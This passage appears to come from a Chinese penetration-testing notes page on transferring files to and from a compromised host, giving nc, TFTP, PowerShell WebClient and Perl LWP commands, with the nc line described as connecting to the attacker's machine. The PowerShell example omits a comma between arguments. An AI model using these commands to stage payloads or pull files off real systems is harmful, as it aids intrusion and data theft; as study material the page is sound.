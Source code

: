 ```bash
nc host_ip 1234 > file
```

这条命令将连接攻击者的电脑, 接受传过来的文件内容并保存到 file 路径

---

#### TFTP

在 Windows Vista 以及以后的版本中默认有 FTP，可以使用以下命令运行：

上传：

```powershell
tftp -i IP地址 PUT C:\%homepath%\file 远程存放位置
```

下载：

```powershell
tftp -i IP地址 GET C:\%homepath%\file 本地存放位置
```


---

### 编程语言下载脚本

#### Powershell

PowerShell 是一种 winodws 原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

下面这两条指令实现了从 Internet 网络下载一个文件。

```Powershell
$p = New-Object System.Net.WebClient
$p.DownloadFile("http://domain/file" "C:\%homepath%\file")
```

> 关于 Windows 上 Powershell 下载与执行在[Windows安全-下载与执行文件-Net.WebClient](Windows/index.md#Net.WebClient) 处有更多

---

#### Perl

编写 Perl 脚本实现文件下载:

```perl
#!perl
#!/usr/bin/perl
use LWP::Simple;
getstore("http://domain/file", "file");
```

执行脚本文件:

```bash
perl test.pl
```

---